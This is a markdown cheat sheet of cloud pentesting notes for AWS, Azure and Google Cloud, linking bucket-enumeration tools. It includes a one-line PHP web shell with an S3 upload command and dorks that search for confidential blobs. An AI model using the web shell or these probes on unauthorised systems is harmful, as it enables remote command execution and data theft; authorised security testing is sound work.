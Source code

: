 # Cloud Pentesting    
Main Cloud platforms: Amazon Web Services, Microsoft Azure, Google Cloud. Most cloud providers have miminal logging by default.        
[Grey Hat Warfare](https://buckets.grayhatwarfare.com/): search public buckets       
Use masscan to scan a large IP range:      

    $ masscan 10.10.0.1/24 -p 22,25,80,443,3389            
    --rate 50000   #fastest scan    
## AWS     
AWS GuardDuty for security. [AWS IP ranges](https://ip-ranges.amazon.aws/ip-ranges.json)         
[Pacu](https://github.com/RhinoSecurityLabs/pacu): AWS exploit framework      
S3 Buckets: https://s3.amazonaws.com/{bucketname}        
[bucketfinder](https://github.com/FishermansEnemy/bucket_finder/tree/master): look for interesting files on Amazon S3 buckets.       
Commands         

    https://aws.amazon.com/cli/   #AWS CLI    
   
    aws configure     #set up, can put temp in all values   
    aws s3 ls bucket.site.com    #list contents of a bucket    
    aws --endpoint=http://s3.site.com s3 ls      
    aws --endpoint=http://s3.site.com s3 ls s3://site.com   #list objects and common prefixes   
  
might be able to upload a php web shell      

    echo '<?php system($_GET["cmd"]); ?>' > shell.php   #make web shell file   
    aws --endpoint=http://s3.site.com s3 cp shell.php s3://site.com    

Search for files with keywords in buckets using bucket_finder:     

    bucket_finder.rb search_term --download         
    
### Resources      

    https://www.hackthebox.com/blog/aws-pentesting-guide    
    
## Azure    
Built in security with Azure Sentinel. Azure acts as a middleman between the AD network and user sign on - makes lots of traditional AD acts ineffective.         
Azure Blob: https://{account}.blob.core.windows.net/{container}     


### Enumerate Azure Blobs   
[Azure-CLI](https://learn.microsoft.com/en-us/cli/azure/install-azure-cli)     
[AZ-Blob-Attacker](https://github.com/VitthalS/Az-Blob-Attacker)    
[Basic Blob Finder](https://github.com/joswr1ght/basicblobfinder): search for Azure blobs       
[Microburst](https://github.com/NetSPI/MicroBurst): Scripts for pentesting Azure    
Google Hacks:     

    site:*.blob.core.windows.net
    site:"blob.core.windows.net" and intext:"CONFIDENTIAL"
### Resources:    
https://www.inversecos.com/2022/01/how-to-detect-and-compromise-azure.html      

## Google Cloud   
GCP Cloud Armor for security.      
GCP: https://www.googleapis.com/storage/v1/b/{bucketname}      
[GCPBucketBrute](https://github.com/RhinoSecurityLabs/GCPBucketBrute): search for Google Storage Buckets and check accesses.     
